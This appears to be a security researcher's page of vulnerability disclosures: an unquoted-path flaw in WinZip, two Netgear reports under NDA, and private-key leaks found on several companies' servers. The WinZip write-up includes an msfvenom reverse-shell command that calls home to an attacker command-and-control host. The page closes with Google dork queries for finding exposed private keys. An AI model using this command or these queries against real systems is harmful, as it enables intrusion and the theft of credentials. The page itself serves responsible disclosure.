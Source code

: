 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): [https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf](https://github.com/ciwen3/Public/blob/master/Cyber%20Security/vuln-report/winzip-Submission.pdf)
- Credited: [https://support.corel.com/hc/en-us/articles/217086227](https://web.archive.org/web/20210218194953/https://support.corel.com/hc/en-us/articles/217086227)
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

1. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers. The first server was found by googling and it had a url with a name followed by a numbered. By going to the next number up I was able to find an additional server that also lacked proper file permissions. 
2. [Redacted]Resorts.com: June 12, 2024 - Sensitive data exposure, found one private key on publicly accessable (no login required and google searchable) servers.
3. [Redacted]Custom.com: June 12, 2024 - Sensitive data exposure, found private keys on publicly accessable (no login required and google searchable) servers.

##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"  | ".crt" | ".pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
